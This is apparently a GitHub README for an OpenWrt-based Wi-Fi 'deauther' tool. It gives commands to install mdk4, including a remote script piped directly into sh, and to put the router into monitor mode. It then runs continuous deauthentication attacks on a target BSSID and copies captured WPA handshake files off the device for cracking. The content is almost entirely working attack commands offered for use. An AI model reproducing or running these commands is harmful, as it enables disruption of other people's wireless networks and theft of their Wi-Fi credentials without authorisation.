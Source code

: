 # openwrt deauther based on airplay-ng 
- Functions similar on kali
- Also it can capture WPA Handshakes

## Root access 
```sh
ssh root@192.168.1.1
```
```sh
telnet 192.168.1.1
```
# Mipsel_24kc only 
> Any Openwrt running in this processors is supported by [mdk4](https://downloads.openwrt.org/releases/23.05.5/targets/ramips/)
 - mt7620
 - mt7621
 - mt76x8
 - rt288x
 - rt305x
 - rt3883
```sh
opkg update && wget -O mdk4.ipk https://raw.githubusercontent.com/xiv3r/openwrt-deauther/refs/heads/main/mdk4_4.2-5_mipsel_24kc.ipk && opkg install mdk4.ipk
```

## Auto install 
```sh

opkg update && opkg install curl && curl https://raw.githubusercontent.com/xiv3r/openwrt-deauther/refs/heads/main/monitor_mode.sh | sh
````

# Using aireplay-ng 
```sh
sh monitor_mode.sh && airodump-ng mon0
```
> ctrl + c
```sh
aireplay-ng --deauth 0 -a (Mac BSSID)
```

# Using mdk4
```sh
sh monitor_mode.sh && mdk4 mon0 d
```
## Manual
> More info
 - aireplay-ng --help
 - airodump-ng --help
 - aircrack-ng --help

`iw phy phy0 interface add mon0 type monitor`

`ip link set mon0 up`

`airodump-ng mon0`

`aireplay-ng mon0 --deauth 0 -a 32:AA:E4:18:90:45 --ignore-negative-one`

- -a | bssid -a (32:AA:E4:18:90:45)

## Export handshake or files from openwrt to local storage
- Termux Terminal 
```sh
scp root@192.168.1.1:*.cap storage/downloads
```
- Kali terminal 
```sh
scp root@192.168.1.1:*.cap /home/*/Downloads
```

> [Hint!]
 - *.cap - export any name with .cap file format
